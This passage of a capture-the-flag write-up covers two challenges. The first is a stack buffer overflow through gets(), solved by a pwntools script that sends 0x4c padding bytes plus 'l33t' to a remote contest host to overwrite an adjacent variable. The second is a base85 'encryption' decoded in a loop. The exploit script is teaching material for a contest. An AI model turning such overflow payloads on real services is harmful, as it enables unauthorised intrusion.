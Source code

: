 The 'gets' function is known to be insecure and cause buffer overflows. Aditionally, the 's1' variable is declared after 'v1' (closer to RBP), meaning that we can overwrite it. Its offset is `rbp - 0x50 - (rbp - 0x4) = 0x4c`. Here's the solve script:

{% highlight python %}
from pwn import *

context.log_level = "CRITICAL"

r = remote("34.89.172.250", 32618)
#r = process("./overflowie")

buf = b"A" * 0x4c
buf += b"l33t"

r.sendlineafter(b"the flag: ", buf)

r.recvuntil(b"Omg you found the supersecret flag. You are l33t ind33d\n")

flag = r.recvline().decode().strip()
print(flag)
{% endhighlight %}
**Flag:** ctf{417e85857875cd875f23abee3d45ef6a4fa68a56e692a8c998e0d82f4f3e6ac7}


## secure-encryption {#secure-encryption}

{% highlight bash %}
Decode the encryption and get the flag.

Flag format CTF{sha256}
{% endhighlight %}

After connecting to the provided address, we get a sample 'encrypted' value:

{% highlight bash %}
yakuhito@furry-catstation:~/ctf/unr21-ind$ nc 35.198.184.110 31412
What is the initial message of the encryption? 
 ENC= b'S#(HLcuz@hZ%0>IY*%k~T6J?(SY}pdP+C`ZL}z4a'
Value: ^C
yakuhito@furry-catstation:~/ctf/unr21-ind$
{% endhighlight %}

I still remember not solving the first challenge about BASE85 that I encountered. Once you know the message is encrypted with base85 / ascii85, making a solve script is easy:

{% highlight bash %}
from pwn import *
import base64

context.log_level = "CRITICAL"

r =  remote("35.198.184.110", 31412)

def round():
  r.recvuntil(b"ENC= b'")
  enc = r.recvuntil("'")[:-1]
  dec = base64.b85decode(enc)
  print(dec)
  r.sendlineafter(b"Value: ", dec)

while True:
  round()
  line = r.recvline()
  if not line.startswith(b"What is the initial message"):
    flag = line.decode().strip().split(": ")[1]
    print(flag)
    break
{% endhighlight %}
